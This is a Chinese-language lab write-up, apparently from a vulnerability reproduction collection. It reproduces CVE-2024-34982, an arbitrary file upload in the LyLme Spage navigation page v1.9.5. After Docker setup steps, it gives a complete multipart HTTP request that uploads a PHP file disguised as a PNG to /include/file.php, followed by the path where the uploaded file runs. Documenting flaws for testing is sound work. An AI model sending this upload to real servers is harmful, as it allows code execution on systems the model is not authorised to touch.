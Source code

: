 # CVE-2024-34982 LyLme Spage六零导航页 文件上传

六零导航页 (LyLme Spage) 致力于简洁高效无广告的上网导航和搜索入口，支持后台添加链接、自定义搜索引擎，沉淀最具价值链接，全站无商业推广，简约而不简单。lylme_spage v1.9.5 组件 /include/file.php 中存在任意文件上传漏洞，允许攻击者通过上传精心设计的文件来执行任意代码。

**影响版本**：lylme_spage v1.9.5

**项目地址**：https://gitee.com/LyLme/lylme_spage/

**参考链接**：

- https://github.com/n2ryx/CVE/blob/main/Lylme_pagev1.9.5.md
- https://blog.csdn.net/shelter1234567/article/details/141305616



## 漏洞环境

执行如下命令启动一个lylme_spage_v1.9.5-web服务器：

```
docker compose up 
```

环境启动后，访问`http://your-ip:80`将面跳转到lylme_spage的安装向导页面

输入数据库库名称lylme_spage，点击安装

![image-20240817111708171](./1.png)

等待安装完成

![image-20240817112007103](./2.png)



## 漏洞复现

发起如下的请求，上传php文件

```
POST /include/file.php HTTP/1.1
Host: 192.168.160.128
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary89Tc5ksp85eVIfaA
Content-Length: 193

------WebKitFormBoundary89Tc5ksp85eVIfaA
Content-Disposition: form-data; name="file";filename="mm.php"
Content-Type: image/png

<?=phpinfo();?>
------WebKitFormBoundary89Tc5ksp85eVIfaA--
```

![image-20240817112645153](./3.png)

访问php文件`http://192.168.160.128/files/upload/img_66c0186079bee.php`

![image-20240817112826889](./4.png)